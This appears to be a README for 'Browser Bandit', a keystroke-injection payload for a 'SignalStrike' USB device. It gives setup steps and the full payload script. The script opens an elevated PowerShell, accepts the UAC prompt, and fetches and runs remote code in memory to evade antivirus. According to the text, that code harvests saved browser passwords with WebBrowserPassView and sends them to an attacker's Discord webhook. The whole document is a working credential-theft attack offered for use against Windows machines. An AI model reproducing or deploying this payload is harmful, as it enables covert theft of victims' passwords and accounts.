### **Browser Bandit (SignalStrike)**


Requirements:

    hardware: Code-382 SignalStrike (store)
    Attacker: Windows/Linux/MacOS/Android/iOs with Discord installed
    Target: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 Signal Strike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a .txt file, which is then transmitted to the attacker’s Discord Webhook.

1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

    Create a new Discord server (if you don’t have one already).
    Right-click on the server icon and select Server Settings.
    Navigate to Integrations > New Webhook.

    Copy the webhook link and save it somewhere safe for later use.

2. Download Payload.txt

Next, you need to download Payload.taxt. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the Payload.txt file, locate line 12 and replace <DISCORD WEBHOOK HERE> with your actual Discord webhook URL (without the angle brackets <>).

Payload.txt (Code-382 Github)

DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER

3. Upload Your Payload to SignalStrike

    Plug in your SignalStrike device.
    Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
    Open a web browser and go to 192.168.4.1 to access the control panel.
    Create a new payload and name it “Browser Bandit.”
    Paste your modified Payload.txt (with the webhook) into the text box provided.
    Save the payload and execute it.
